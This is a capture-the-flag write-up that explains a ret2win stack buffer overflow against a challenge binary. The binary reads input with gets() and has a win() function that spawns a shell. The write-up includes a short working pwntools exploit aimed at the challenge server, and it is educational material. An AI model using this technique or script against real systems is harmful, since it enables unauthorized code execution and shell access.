

# play-to-win:
## Description:

If you don't win, you will return empty handed :/

```
nc 129.241.209.70 56705
```

---
## The plan

For this challenge we were both given the source code and the compiled binary. 

To start of, we run the `file` and `checksec` command to figure out how the binary was compiled. `checksec` is part of the [pwntools](https://github.com/Gallopsled/pwntools) framework.


As we can see from the screenshot above, its a 64-bit ELF without PIE, and no canary. 

No PIE means that the executable itself will always be located at the same address in memory. No canary means that there is no stack canary, and we can do a buffer overflow without having to leak / bypass the canary.

If we look at the source code given, we see a few interesting things. First in main, we can se that `gets` is used:

```c
    char input[0x55];
    puts("Enter the magic number to win:");
    gets(input);
```

`gets` is a depricated function that reads data in to a buffer until either a terminating newline or EOF. This means that there is no check on how much data we send to the buffer, and we can easily overflow it. 

The second interesting thing is that there is a win function. 

```c
void win() {
    system("/bin/sh");
}
```
This means that all we need to to is to find the correct offset to overwrite the return pointer on the stack, and replace it with a pointer to the win function. This will make the main function return to our win function, instead of back to `libc_start_main`.

This is a common ctf challenge type knowns as ret2win. If you want to know more [LiveOverflows binary exploitation series](https://youtu.be/iyAyN3GFM7A) is a good place to start.

## Finding the correct offset
To figure out how much data we need to send before we overwrite the return address, we can send in a known pattern (which does not contain any valid addresses). We can then observe the stack at the time main returns, and calculate the offset between the value on the top of the stack(return address) and the start of the pattern.

To do this, i use the `cyclic` function i the gdb extension [pwngdb](https://github.com/pwndbg/pwndbg) to create the pattern, and the run the program in the debugger. From the source code I know that the input buffer is 0x55 or decimal 85, so sending inn 200 bytes should be more than enough to overwrite the return address. And as we can see from the screenshot below, we successfully crashed the program.


If we look at the stack at the time we crashed the program, we can see that `baabcaab` are the top 8 bytes on the stack. This is the address that the program tried to return to. Since it is not a valid address, the program crashed with a Segmentation fault. 

We can then use `cyclic` again to calculate the offset to our return address. 


## Exploit

The last thing we need to do is to create an exploit. The idea is to first send 104 bytes of junk, and then send the address of the win function. This will make the program return to/invoke the win function, and therefor giving us a shell.

The first thing we need to do is to find the address of the win function, there are several ways to do this, but we will use gdb.


Then the last step is to create a simple python script, to send our exploit to the remote server and get a shell. I will use [pwntools](https://github.com/Gallopsled/pwntools) to make socket handeling and interaction a bit easier. 

```python
from pwn import *
exe = context.binary = ELF('./play-to-win')
io = remote('129.241.209.70', 56705)
#io = process('./play-to-win') #uncomment this line to test locally
win_addr = 0x4012f4 #the address of the win function
payload = b'A'*104 + p64(win_addr)
io.sendline(payload)
io.interactive()
```
the `p64()` function just packs the integer address we specified to a 8 byte little endian address that the binary can understand. 

Running the scirpt:


